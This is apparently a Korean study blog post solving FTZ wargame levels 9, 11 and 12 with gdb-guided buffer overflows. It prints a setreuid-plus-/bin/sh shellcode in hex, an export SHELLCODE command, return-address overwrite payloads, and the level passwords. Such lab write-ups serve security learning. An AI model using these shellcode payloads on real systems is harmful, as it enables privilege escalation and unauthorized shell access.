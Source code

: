 ```yaml
---
title: FTZ(Level 9, 11, 12)
author: 100zja
date: 2020-08-17
categories: [study]
tags: [ftz]
toc: ture
---
```


## **Level9**  

(1) gdb로 풀기  

![1](/images/구1.PNG) 

ls -al로 파일들을 확인하고  
힌트가 있음을 확인하고 힌트를 읽는다 

![2](/images/구2.PNG)  
코드를 해석해보면  
* char형 변수 buf, buf2가 10 크기의 배열로 각각 선언되고  

* 40만큼의 문자열을 fgets가 입력받아 buf에 저장한다  

* buf2에 저장된 문자가 go와 일치한다면 "Good skill!" 문구 출력과 3010의 level10 권한을 설정하고

* /bin/bash 쉘을 실행한다  
===> fgets에서 취약점이 발생해 버퍼 오버 플로우를 일으킨다는 것을 알 수 있다 

![3](/images/구3.PNG)  

gdb를 실행할 수 있는 권한이 있는 tmp로 이동한 뒤에 cat 명령어로 실행 파일을 생성한 뒤 컴파일한다

![4](/images/구4.PNG)  

gdb를 실행해서 메모리를 확인한다  
* main+3에서 40바이트의 메모리가 할당된다  
* main+43에서 eax에 ebp-40의 주소를 저장함 (buf)    
* main+65에서 eax에 ebp-24의 주소를 저장함(buf2)  
===> buf에서 입력 시에 ebp-40을 넘겨 16바이트를 넘기면 ebp-24 공간을 넘어가 버퍼 오버플로우 발생가능  

![5](/images/구5.PNG) 

bof 소스가 있는 /usr/bin 디렉토리로 이동해 bof 소스를 실행시켜 버퍼 오버플로우를 발생 시키고 level10의 권한을 얻어 my-pass로 확인한다  

### **level10 password : "interesting to hack!"**
-------------


## **Level11**  

![1](/images/십1.PNG)  
ls -al로 파일을 확인하고 cat hint 명령어를 통해 힌트를 열어본다  

![2](/images/십2.PNG)  
* int 배열과 char 배열을 받아옴
* 문자형 str배열의 크기는 256 바이트  
* 3092는 level12의 id임  
* 사용자가 입력한 값을 str에 넣고
* str 출력  
    - 사용자로부터 배열을 입력받은 뒤 프로그램의 인자로 입력받음  
====> strcpy에서 취약점이 발생해 버퍼 오버 플로우가 일어난다  
    
![3](/images/십4.PNG)  


test를 입력하니 그대로 출력된 것으로 보아 힌트가 attackme의 소스코드인 것을 알 수 있다.  

![4](/images/십5.PNG)  
attackme를 권한이 있는 tmp로 복사한 뒤 tmp로 이동해 gdb로 실행시킨다  
gdb를 해석해 보면  
* setreuid전에 확보된 메모리 : 108 + 8 (16진수) = 110 => 272 byte  
* main + 9 : SFP, RET =>8 byte  
===> 256(buffer) + 8(dummy) + 4(SFP) + 4(RET)  

![5](/images/십7.PNG)  
* export 명령어를 통해서 환경변수를 등록해준다  
    - export [환경변수명]=$(python -c 'print "쉘코드"')
* 쉘코드 : "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"  
![6](/images/십8.PNG)  
* env 명령어를 사용해 환경 변수를 확인한다  
    - env 명령어 : 현재 지정되어 있는 환경 변수들을 출력하거나, 새로운 환경 변수를 설정하고 적용된 내용을 출력하는 명령어  
    - env [옵션]... [name = 값]... [명령[인수]...]  


![7](/images/십9.PNG)  
![8](/images/십10.PNG) 

* getenv() 함수 : 환경변수를 읽는 역할  

* SHELLCODE를 실행시키는 프로그램을 짠 뒤 컴파일 해 준다  
dap을 실행해 보면 쉘코드 주소가 나타난다  

![9](/images/십11.PNG)  

* 마지막으로 RET 주소까지 가기 위해서는 268 byte가 필요하므로 페이로드(전송되는 데이터)를 작성해야한다 

* 0xbffffc1d를 리틀엔디안으로 변환하면 \x1d\xfc\xff\xbf  

* 페이로드를 완성하면 ./attackme `python -c 'print "A"*268+"\x1d\xfc\xff\xbf"'`  
===> 프로그램 실행 시 인자를 넘겨줌  
그 뒤에 id를 확인하고 level12가 된 것을 확인하고 my-pass를 통해 비밀번호를 확인한다  

### **level12 password : "it is like this"**  
----------------


## **Level 12**

![1](/images/하나.PNG)  
ls -al 명령어로 존재하는 파일들을 확인한다  
힌트가 있는 것을 확인한다

![2](/images/둘.PNG)  
cat hint 명령어를 사용해 힌트를 확인한다  
힌트를 분석해보면  
* 문자형 배열이 256 크기로 선언된다
* level 13의 id가 있고
* gets 함수로 str변수에 입력을 받고
* 입력받은 내용을 printf로 출력한다    
    - 프로그램을 실행한 뒤에 gets 함수로 입력을 받음   
===> gets 함수로 버퍼 오버플로우 취약점이 발생하게 된다

![3](/images/넷.PNG)  
attackme를 gdb로 보기 위해 권한이 있는 tmp 디렉토리로 복사한뒤 tmp로 이동해 gdb로 확인한다  
gdb를 확인해보면   
* main +3 : 264만큼의 메모리 확보  
    - str은 256 byte이므로 dummy값이 8 byte라는 것을 알 수 있음
    - RET - 4 byte
    - SFP - 4 byte
    - str - 256 byte   
===> return address를 덮어쓰기 위해서는 264(str) + 4(sfp) = 268 byte가 필요함  
* main + 49 : ebp - 264 -> str 버퍼부터 ebp까지 거리가 264임  
    - ret : ebp로부터 4byte 아래에 위치하기 때문에 268 byte가 된다(str 부터 ret 까지의 거리)  

문제를 해결하기 위해서는 level11 처럼 쉘코드를 이용해 환경변수에 등록해야한다  
* 쉘 코드 : "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"  

* 환경변수 : export 명령어 샤용  
    - export [환경변수명]=$(python -c 'print "쉘코드"')  
===> - export SHELLCODE=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') 를 환경변수로 등록한다  

![4](/images/다섯.PNG)  

그 다음 env 명령어로 등록된 환경변수를 확인한다  

![5](/images/여섯.PNG)  

환경변수에 등록된 쉘코드의 주소를 알아내기 위한 c언어 코드를 작성한 뒤 실행한다  

![6](/images/일곱.PNG)

코드를 컴파일 해준다  

![7](/images/여덟.PNG)  

컴파일 하고 실행해주면 쉘 코드의 주소가 나온다  

마지막으로 쉘 코드 주소를 리틀엔디안으로 변환하고 페이로드를 작성해 답을 구한다

쉘 코드 주소 : 0xbffffc1d  
리틀엔디안 변환 : \x1d\xfc\xff\xbf 

페이로드 : $(python -c'print "A"*268 + "\x1d\xfc\xff\xbf"', cat) | ./attackme  
를 입력하면 권한이 얻어지고 my-pass로 level13의 패스워드를 확인한다  

